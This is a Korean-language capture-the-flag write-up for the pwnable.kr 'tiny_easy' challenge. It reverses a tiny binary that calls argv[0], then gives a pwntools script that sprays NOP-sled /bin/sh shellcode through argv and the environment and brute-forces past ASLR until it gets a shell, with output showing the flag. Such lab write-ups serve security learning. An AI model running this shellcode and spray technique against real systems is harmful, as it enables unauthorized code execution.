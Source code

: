 # [pwnable.kr] tiny_easy writeup

##### [summary] brute force

```shell
I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.

ssh tiny_easy@pwnable.kr -p2222 (pw:guest)
```



objdump로도 코드가 안보이고 심볼이 없어서 gdb로도 알 수가 없어서 일단 scp를 이용해서 바이너리를 받아왔다.

```shell
ch4rli3kop@DESKTOP-D8UTNRD:~/pwn$ scp -P 2222 tiny_easy@pwnable.kr:/home/tiny_easy/tiny_easy /mnt/c/pwn
```



바이너리 닌자를 사용해서 보니 다음과 같았다.

```asm
_start:
pop     eax {__return_addr}
pop     edx {arg1}
mov     edx, dword [edx]
call    edx
```



해당 주소에 브레이크 포인트를 건 뒤 살펴보니 argv[0]를 실행시키는 걸 알 수 있음

근데 여기서 ㅡㅡ gdb로는 argv[0]가 절대주소로 잡혀서 계속 삽질했다..;;

core 파일 생성된 걸로 분석해보니 argv[0]가 들어감.



stack에 실행권한이 있는 바이너리이므로 argv[0]를 shellcode가 있는 stack의 주소로 올려야한다.

aslr이 걸려있으므로 대충 아래와 같이 코드를 짜서 브포돌리면 쉘을 딸 수 있다.

### exploit

```python
#!/usr/bin/python
from pwn import *

payload =  '\x90'*0x100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

_env = {}
_argv = ['\xff\xff\xdf\xff']

for i in range(0x100):
    _env[str(i)] = payload
    _argv.append(payload)

for i in range(0x100):
    r = process(executable='./tiny_easy', argv=_argv ,env=_env)
    try:
        r.sendline('cat flag')
        r.recv(100)
    except:
        print 'sorry..'
        continue

    r.interactive()
```

### result

```shell
tiny_easy@prowl:/tmp/charlie3$ python sol_tiny.py 
[+] Starting local process '/home/tiny_easy/tiny_easy': pid 134785
sorry..
...
[+] Starting local process '/home/tiny_easy/tiny_easy': pid 137324
[*] Switching to interactive mode
$ id
uid=1044(tiny_easy) gid=1044(tiny_easy) egid=1045(tiny_easy_pwn) groups=1045(tiny_easy_pwn),1044(tiny_easy)
$ cat /home/tiny_easy/flag
What a tiny task :) good job!
```

